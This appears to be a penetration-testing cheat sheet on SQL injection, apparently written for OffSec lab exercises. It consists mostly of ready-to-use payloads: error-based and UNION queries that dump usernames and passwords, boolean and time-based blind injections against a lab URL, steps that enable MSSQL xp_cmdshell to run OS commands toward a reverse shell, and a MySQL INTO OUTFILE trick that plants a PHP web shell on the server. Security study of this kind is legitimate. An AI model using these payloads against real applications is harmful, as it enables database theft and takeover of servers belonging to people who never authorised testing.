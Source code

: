 # SQL Injection

### Mysql

```
select version();
select system_user();
show databases;
```

### MSSQL

```
SELECT @@version;
SELECT name FROM sys.databases;
SELECT * FROM offsec.information_schema.tables;
select * from offsec.dbo.users;
```

## Manual Exploitation

### Error-Based

```
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

### Union-Based

If we get In-Band SQLi where reesult displayed along with the application returned value, we should try for UNION SQLi attacks to work, which we first need to satisfy two conditions:

* The injected UNION query has to include the same number of columns as the original query.
* The data types need to be compatible between each column.

```
# Check how many columns are there
' ORDER BY 1-- //

# If there's 6 column, we can try below query
%' UNION SELECT database(), user(), @@version, null, null -- //

# If first query didn't show because normally for id, we can try below
' UNION SELECT null, null, database(), user(), @@version  -- //

# Enumerate information_schema.tables
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //

' UNION SELECT null, username, password, description, null, from users-- -
```

### Blind

* Web app doesn't directly display database reponses.
* Infer information indirectly by how the web application behaves

**Boolean-based Blind SQL Injection**\
The attacker sends SQL queries that evaluate to `TRUE` or `FALSE`. Depending on the result:

* The application behaves differently (e.g., displays or hides content).
* The attacker can deduce whether a condition is true or false.

Example payload:

```
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```

**Time-based Blind SQL Injection**\
The attacker uses SQL queries that cause delays when a condition is true. By **measuring response time**, they deduce whether the condition is met.

Example payload:

```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3), 'false') -- //
```

* If `1=1` (true), the database waits for 3 seconds before responding.
* If false, the response is immediate.

This method is slower but can uncover similar information.

### Manual Code Execution

#### MSSQL Code Execution

* xp\_cmdshell take string and passes to command shell for execution
* disable by default, but administrator can enable
* Must be called with EXECUTE instead of SELECT

```
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami';
```

* After getting cmdshell, can get reverse shell

#### MySQL Code Execution

* Abuse SELECT INTO\_OUTFILE statement to write files to the web server

```
' UNION SELECT "<PHP WEBSHELL ONE LINER>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

